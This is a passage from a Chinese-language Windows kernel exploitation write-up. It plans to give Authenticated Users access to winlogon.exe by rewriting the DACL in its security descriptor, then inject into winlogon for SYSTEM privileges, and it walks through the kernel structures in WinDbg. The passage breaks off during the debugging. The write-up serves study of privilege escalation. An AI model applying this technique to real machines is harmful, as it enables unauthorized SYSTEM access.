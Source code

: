 ```assembly
fffff800`3afc4580 cc              int     3
```

这就直接蓝屏了。

### 使用windbg进行调试

我们接下里开始正确的思路，进行的步骤是：

```
1. 定位到winlogon.exe进程的SecurityDescriptor
2. 从SecurityDescriptor中找到包含ACCESS_ALLOWED_ACE的DACL列表
3. 修改其中的sid为 S-1-5-11, 所有经过身份认证的用户都是这个sid，这样就是当前的所有用户都有权限访问和修改此进程
4. 修改漏洞利用进程的MandatoryPolicy为0，进行进程注入，获取system权限。
```

为了修改ACL，我们先看一下相关的数据结构：

```assembly
0: kd> dt _SECURITY_DESCRIPTOR 
nt!_SECURITY_DESCRIPTOR
   +0x000 Revision         : UChar
   +0x001 Sbz1             : UChar
   +0x002 Control          : Uint2B
   +0x008 Owner            : Ptr64 Void
   +0x010 Group            : Ptr64 Void
   +0x018 Sacl             : Ptr64 _ACL
   +0x020 Dacl             : Ptr64 _ACL
```

这里可以看到`Dacl`,它保存了对此对象有操作权限的用户，ACL的结构如下：

```assembly
0: kd> dt _ACL 
nt!_ACL
   +0x000 AclRevision      : UChar
   +0x001 Sbz1             : UChar
   +0x002 AclSize          : Uint2B
   +0x004 AceCount         : Uint2B
   +0x006 Sbz2             : Uint2B
```

可以说明这个`_ACL`其实只存储了数据头部，后买你才是真实存储的ACL数据。在DACL中有两种ACE，分别是`ACCESS_ALLOWED_ACE`和`ACCESS_DENIED_ACE`,我们接下来就开始修改`ACCESS_ALLOWED_ACE`,实现让任意用户都有访权限。

```c
typedef struct _ACCESS_ALLOWED_ACE {
  ACE_HEADER  Header;
  ACCESS_MASK Mask;
  DWORD       SidStart;
} ACCESS_ALLOWED_ACE;
```

接下来就来看一下这个具体的`SecurityDescriptor` 是长什么样：

```assembly
0: kd> !process 0 0 winlogon.exe
PROCESS ffffb78f2b0d3140
    SessionId: 1  Cid: 0260    Peb: 6336452000  ParentCid: 01f8
    DirBase: 12b8fd002  ObjectTable: ffff900849cfc180  HandleCount: 259.
    Image: winlogon.exe

0: kd> dt _OBJECT_HEADER ffffb78f2b0d3140-30  SecurityDescriptor
nt!_OBJECT_HEADER
   +0x028 SecurityDescriptor : 0xffff9008`464082a2 Void
0: kd> !sd 0xffff9008`464082a2
30000000140000: Unable to get MIN SID header
30000000140000: Unable to read in Owner in SD
0: kd> !sd 0xffff9008`464082a0 
```